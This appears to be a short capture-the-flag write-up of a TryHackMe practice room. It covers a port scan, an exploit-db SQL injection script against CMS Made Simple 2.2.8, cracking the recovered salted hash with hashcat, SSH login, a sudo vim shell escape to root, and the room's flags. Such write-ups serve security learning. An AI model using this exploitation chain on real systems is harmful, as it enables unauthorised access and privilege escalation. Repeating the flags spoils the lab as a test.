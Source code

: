 https://tryhackme.com/room/easyctf


ip = `10.10.241.47`

# Open ports

21/tcp   open  ftp     vsftpd 3.0.3\
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))\
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

# Findings

`This site is powered by CMS Made Simple version 2.2.8` -> https://www.exploit-db.com/exploits/46635

python3 exploitSimpleCTF.py -u http://10.10.241.47/simple -w /usr/share/wordlists/rockyou.txt

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```


`hashcat -m 20 '0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2' Downloads/rockyou.tx` gives: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret

ssh mitch@10.10.241.47 -p 2222

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ ls
user.txt
$ cat user
cat: user: No such file or directory
$ cat user.txt
G00d j0b, keep up!
$ ls /home
mitch  sunbath
$ sudo vim -c ':!/bin/sh'

# whoami
root
# ls
user.txt
# cat user
cat: user: No such file or directory
# cat user.txt
G00d j0b, keep up!
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```